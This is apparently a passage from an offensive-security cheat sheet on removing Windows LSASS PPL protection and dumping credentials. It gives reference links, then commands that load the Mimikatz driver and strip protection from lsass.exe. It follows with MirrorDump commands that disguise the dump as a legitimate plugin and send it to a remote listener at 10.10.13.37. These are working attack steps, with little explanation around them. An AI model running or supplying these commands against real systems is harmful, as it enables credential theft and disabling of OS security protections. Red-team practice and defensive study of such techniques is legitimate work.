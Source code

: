 


## Remove PPL Protection

- [https://googleprojectzero.blogspot.com/2018/08/windows-exploitation-tricks-exploiting.html](https://googleprojectzero.blogspot.com/2018/08/windows-exploitation-tricks-exploiting.html)
- [https://itm4n.github.io/lsass-runasppl/](https://itm4n.github.io/lsass-runasppl/)
- [https://blog.scrt.ch/2021/04/22/bypassing-lsa-protection-in-userland/](https://blog.scrt.ch/2021/04/22/bypassing-lsa-protection-in-userland/)
- [https://github.com/itm4n/PPLdump](https://github.com/itm4n/PPLdump)
- [https://itm4n.github.io/the-end-of-ppldump/](https://itm4n.github.io/the-end-of-ppldump/)
- [https://github.com/RedCursorSecurityConsulting/PPLKiller](https://github.com/RedCursorSecurityConsulting/PPLKiller)
- [https://tastypepperoni.medium.com/running-exploit-as-protected-process-ligh-from-userland-f4c7dfe63387](https://tastypepperoni.medium.com/running-exploit-as-protected-process-ligh-from-userland-f4c7dfe63387)
- [https://github.com/tastypepperoni/RunAsWinTcb](https://github.com/tastypepperoni/RunAsWinTcb)

Using Mimikatz driver:

```
PS > cmd /c sc create mimidrv binPath= C:\Windows\Tasks\mimidrv.sys type= kernel start= demand
PS > cmd /c sc start mimidrv
PS > Invoke-Mimikatz -Command '"!processprotect /process:lsass.exe /remove" "exit"'
```




## Load SSP

- [https://blog.xpnsec.com/exploring-mimikatz-part-2/](https://blog.xpnsec.com/exploring-mimikatz-part-2/)
- [https://www.programmersought.com/article/65604621980/](https://www.programmersought.com/article/65604621980/)
- [https://russianblogs.com/article/42611473286/](https://russianblogs.com/article/42611473286/)



### MirrorDump

- [https://github.com/CCob/MirrorDump](https://github.com/CCob/MirrorDump)
- [https://github.com/snovvcrash/MirrorDump](https://github.com/snovvcrash/MirrorDump)

```
Cmd > .\MirrorDump.exe -f "NotLSASS.zip" -d "LegitLSAPlugin.dll" -l 1073741824
Cmd > .\MirrorDump.exe --parse

$ python3 MirrorDump.py 0.0.0.0 31337 --md5 --parse
Cmd > .\MirrorDump.exe --host 10.10.13.37 --port 31337
```



### DuplicateDump
